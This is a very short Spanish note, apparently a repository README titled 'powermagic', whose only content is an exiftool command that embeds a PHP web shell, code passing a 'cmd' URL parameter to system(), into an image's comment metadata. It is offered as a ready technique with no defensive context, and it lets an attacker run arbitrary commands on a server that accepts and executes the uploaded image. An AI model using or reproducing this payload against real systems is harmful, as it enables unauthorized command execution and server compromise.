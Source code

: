# powermagic


- Agregar codigo php a una imagen
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>'
```


